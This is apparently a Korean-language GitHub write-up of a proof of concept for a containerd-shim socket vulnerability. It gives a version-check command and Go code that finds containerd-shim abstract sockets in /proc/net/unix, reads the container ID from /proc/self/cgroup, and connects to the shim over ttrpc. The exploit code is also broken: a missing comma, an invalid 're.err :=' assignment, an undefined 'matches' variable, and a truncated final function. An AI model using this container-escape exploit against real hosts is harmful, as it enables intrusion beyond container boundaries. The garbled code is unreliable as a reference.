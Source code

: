 취약한 대상 확인 방법은 아래와 같습니다.

```bash
$ sudo containerd --version
```

<br />

## POC

POC는 아래의 코드와 같습니다.

```go
package main

import (
	"context"
	"errors"
	"io/ioutil"
	"log"
	"net"
	"regexp"
	"strings"
	"os/exec"
    "fmt"
	"github.com/containerd/ttrpc"
	"github.com/gogo/protobuf/types"
)

func exp(sock string) bool {
	sock = strings.Replace(sock, "@", "", -1)
	conn, err := net.Dial("unix", "\x00"+sock)
	if err != nil {
		log.Println(err)
		return false
	}

	client := ttrpc.NewClient(conn)
	shimClient := NewShimClient(client)
	ctx := context.Background()
    out, err := exec.Command("cat" "/proc/self/cgroup").Output()
    re.err := re.FindAllString(string(out), 1)
    log.Println("Container ID:", string(matches[0]))
    
    info2, err := shimClient.State(ctx, &StateRequest{
        ID: string(matches[0]),
    })
    if(err != nil) {
        log.Println("Error State:", err)
    }
    log.Println("Container State:", info2)
	return true
}

func getShimSockets() ([][]byte, error) {
	re, err := regexp.Compile("@/containerd-shim/.*\\.sock")
	if err != nil {
		return nil, err
	}
	data, err := ioutil.ReadFile("/proc/net/unix")
	matches := re.FindAll(data, -1)
	if matches == nil {
		return nil, errors.New("Cannot find vulnerable socket")
	}
	return matches, nil
```